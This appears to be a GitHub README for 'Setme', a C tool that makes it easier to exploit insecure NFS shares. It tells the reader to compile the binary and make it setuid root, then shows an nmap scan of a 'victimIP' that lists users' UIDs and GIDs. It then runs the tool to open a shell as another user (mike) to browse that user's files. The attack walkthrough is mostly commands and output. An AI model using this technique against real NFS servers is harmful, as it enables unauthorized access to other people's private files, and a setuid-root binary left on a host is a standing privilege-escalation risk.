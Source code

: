 # Setme

**A simple binary made in C to make exploitation of insecure NFS systems easier from Linux host.**
This one binary avoids having to add users and groups (and later deleting) when going through many different users NFS directories.
##

**Installation**  
Download the file setMe.c from the repo.

Compile with:  
**gcc setme.c -o setMe**
Then:
sudo chown root:root ./setMe && sudo chmod gu+s ./setMe

*Considerations:*  
I would make sure you keep access to this binary very restricted, or delete after use- but I guess you know that since your a pro.

##
**Usage:
sudo nmap --script=nfs-ls** victimIP
Starting Nmap 7.91 ( https://nmap.org ) at 2020-11-09 15:08 MST  
Nmap scan report for 10.10.10.10  
Host is up (0.097s latency).  
Not shown: 993 closed ports  
PORT STATE SERVICE  
22/tcp open ssh  
25/tcp open smtp  
80/tcp open http  
110/tcp open pop3  
111/tcp open rpcbind  
| nfs-ls: Volume /home  
| access: Read Lookup NoModify NoExtend NoDelete NoExecute  
| PERMISSION **UID GID** SIZE TIME FILENAME  
| drwxr-xr-x 0 0 4096 2015-09-17T13:21:59 .  
| drwxr-xr-x 0 0 4096 2015-01-07T10:56:34 ..  
| drwxr-xr-x **1013 1013** 4096 2016-11-23T10:17:47 mike  
| drwxr-xr-x **1012 1012** 4096 2012-01-23T11:20:40 alex 
| drwxr-xr-x **1011 1011** 4096 2017-06-23T10:32:52 jeff
| drwxr-xr-x **1014 1014** 4096 2015-12-1T21:11:51 james  
|_  
119/tcp open nntp  
2049/tcp open nfs

Say we want to get into **mikes files**, we execute our binary with:
**./setME 1013 1013**
Then we can get varying levels of access to the files depending on how the permissions are set up on the share. 

**Another example:**
pop@kali:/setme/$ **./setMe 1013 1013**
$ **id**
uid=1013 gid=1013 groups=1013


We are now free to browse the nfs folder shares pertaining to the uid and gid in this shell.
To exit the shell type "exit".


